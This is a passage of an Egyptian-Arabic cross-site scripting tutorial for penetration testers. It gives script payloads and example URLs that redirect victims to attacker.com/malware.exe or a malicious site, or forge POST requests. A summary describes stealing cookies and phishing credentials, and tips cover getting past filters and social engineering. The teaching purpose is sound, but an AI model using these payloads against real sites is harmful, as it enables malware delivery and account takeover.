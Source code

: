 5. **تحميل برمجيات خبيثة:**
   - **الوصف**: تخلّي الضحية تحمل ملف خبيث لما تدخل بيانات.
   - **Payload**:
     ```html
     <script>window.location='attacker.com/malware.exe';</script>
     ```
   - **مثال**:
     ```
     example.com/search?query=<script>window.location='attacker.com/malware.exe';</script>
     ```
   - **الخطوات**:
     1. ارفع ملف خبيث.
     2. استخدم الرابط عشان يتحمل.

6. **إعادة توجيه لموقع خبيث:**
   - **الوصف**: ترمي الضحية على موقع فيه هجمات.
   - **Payload**:
     ```html
     <script>window.location='malicious-site.com';</script>
     ```
   - **مثال**:
     ```
     example.com/error?message=<script>window.location='malicious-site.com';</script>
     ```

7. **استغلال ميزات الموقع:**
   - **الوصف**: تنفذ ميزات زي إرسال رسايل أو تعديل بيانات.
   - **Payload**:
     ```html
     <script>
       fetch('example.com/send-message', {
         method: 'POST',
         body: 'message=You are hacked!'
       });
     </script>
     ```
   - **مثال**:
     ```
     example.com/search?query=<script>fetch('example.com/send-message',{method:'POST',body:'message=You are hacked!'});</script>
     ```

---

**خلاصة بالعامية للسيناريوهات:**
كل سيناريو زي طريقة هجوم مختلفة. ممكن تسرق الكوكيز وتدخل على الحساب، تخلّي الضحية تكتب بياناتها في صفحة مزيفة، أو حتى تجيب فيروس. المهم تفهم الموقع وتستغل الحقول الضعيفة زي البحث واللوجن.

---

### **4. نصايح للـ Pentester**
1. **اختبر بأمان**: استخدم بيئة اختبار أو موقعك الخاص عشان تتجنب المشاكل القانونية.
2. **جرب Payloads مختلفة**: جرب أكواد زي `<img>`، `<svg>`، أو مشفرة لو فيه فلاتر.
3. **استخدم أدوات**: زي Burp Suite وXSStrike عشان توفر وقت.
4. **ركز على Social Engineering**: عشان تخلّي الضحية تدخل البيانات أو تفتح الرابط.
5. **سجّل كل حاجة**: دوّن الـ Payloads والنتايج عشان التقرير.
6. **افهم السياق**: شوف إزاي المدخلات بتتعرض (HTML، Attributes، JavaScript).

---